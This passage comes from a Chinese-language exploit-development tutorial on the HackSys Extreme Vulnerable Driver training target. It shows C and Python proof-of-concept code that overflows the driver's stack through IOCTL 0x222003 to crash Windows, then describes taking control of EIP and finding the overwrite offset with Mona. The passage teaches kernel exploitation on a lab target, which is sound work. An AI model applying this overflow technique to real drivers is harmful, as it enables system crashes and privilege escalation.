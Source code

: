 ```
        hDevice,
        0x222003, // IOCTL
        (LPVOID)lpInBuffer,
        2084,
        NULL,
        0,
        &amp;lpBytesReturned,
        NULL);
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
    CloseHandle(hDevice);
    return 0;
}
//EOF
```

这里是Python版



```
# https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowBSOD.py
from ctypes import *
from ctypes.wintypes import *
# Title : HEVD x86 Stack Overflow BSOD
# Platform: Windows 7 x86
# Author: Osanda Malith Jayathissa (@OsandaMalith)
# Website: https://osandamalith.com
kernel32 = windll.kernel32
def main():
    lpBytesReturned = c_ulong()
    hDevice = kernel32.CreateFileA("\\.\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)
    if not hDevice or hDevice == -1:
        print "[!] Failed to get a handle to the driver " + str(ctypes.GetLastError())
        return -1
    buf = "x41" * (1024 * 4) 
    bufSize  = len(buf)
    bufPtr = id(buf) + 20
    kernel32.DeviceIoControl(hDevice, 0x222003, bufPtr, bufSize, None, 0,byref(lpBytesReturned), None)
if __name__ == '__main__':
    main()
# EOF
```

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012e94e3120866b43c.png)

如果我们将缓冲区大小更改为0x900，您可以看到我们可以看到EIP点到我们的缓冲区。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01a1efe53d968bc0ea.png)

开发这个驱动程序的漏洞与开发一个用户空间应用程序的漏洞非常相似。现在我们必须找到我们覆盖返回地址的偏移量，以便EIP指向它。我将使用Mona创建一个0x900的模式。

[![](./img/85861/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t013c051c1cd02942c1.png)
